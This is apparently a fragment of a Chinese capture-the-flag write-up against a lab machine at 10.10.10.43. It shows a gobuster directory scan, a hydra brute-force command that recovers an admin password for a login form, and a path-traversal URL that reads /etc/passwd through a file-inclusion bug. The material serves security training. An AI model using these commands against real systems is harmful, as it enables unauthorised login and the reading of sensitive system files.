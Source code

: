

80：

```bash
└─# gobuster dir -u http://10.10.10.43/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
```

```bash
/department           (Status: 301) [Size: 315] [--> http://10.10.10.43/department/]
```

<img src=".\图片\Snipaste_2023-09-07_09-56-29.png" alt="Snipaste_2023-09-07_09-56-29" style="zoom:80%;" />

```bash
hydra -l admin -P /usr/share/seclists/Passwords/probable-v2-top12000.txt 10.10.10.43 http-post-form "/department/login.php:username=admin&password=^PASS^:Invalid" -t 64 -I
```

```bash
[80][http-post-form] host: 10.10.10.43   login: admin   password: 1q2w3e4r5t
```

弱口令登录，寻找到了 文件包含

```http
10.10.10.43/department/manage.php?notes=files/ninevehNotes.txt../../../../../../../etc/passwd
```
